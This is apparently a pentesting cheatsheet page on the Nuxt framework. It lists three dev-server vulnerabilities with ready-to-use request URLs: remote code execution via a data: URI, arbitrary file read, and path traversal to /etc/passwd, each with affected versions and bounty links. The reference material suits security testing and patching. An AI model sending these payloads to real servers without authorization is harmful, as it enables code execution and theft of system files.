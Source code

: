 ```yaml
---
title: "Nuxt"
description: "Cheatsheet on Nuxt"
lead: "Cheatsheet on Nuxt"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "express"
weight: 620
toc: true
---
```


## Nuxt

[Nuxt](https://github.com/nuxt/nuxt) is an intuitive and extendable way to create type-safe, performant and production-grade full-stack web apps and websites with Vue 3.

## Vulnerabilities

### Remote Code execution 

- `http://localhost:3000/__nuxt_component_test__/?path=data%3Atext%2Fjavascript%2Cconsole%2Elog%28%22hello%21%22%29%3B`
- Version: <= v3.4.0-2 (development server)
- [Huntr -  RCE in developer mode in nuxt/nuxt](https://huntr.dev/bounties/1eb74fd8-0258-4c1f-a904-83b52e373a87/)

### Abritrary file read

- `http://localhost:3000/__nuxt_vite_node__/module//bin/passwd`
- Version: 3.0.0-RC8 - 3.4.1 (development server)
- [Huntr - (Almost) Arbitary File Read on Development Server in nuxt/nuxt](https://huntr.dev/bounties/7840cd32-af15-40cb-a148-7ef3dff4a0c2/)

### Path traversal

- http://localhost:3000/_nuxt/@fs/etc/passwd
- Version: <= rc12 (development server)
- [Huntr - Dev mode Path traversal in nuxt/framework](https://huntr.dev/bounties/4849af83-450c-435e-bc0b-71705f5be440/)
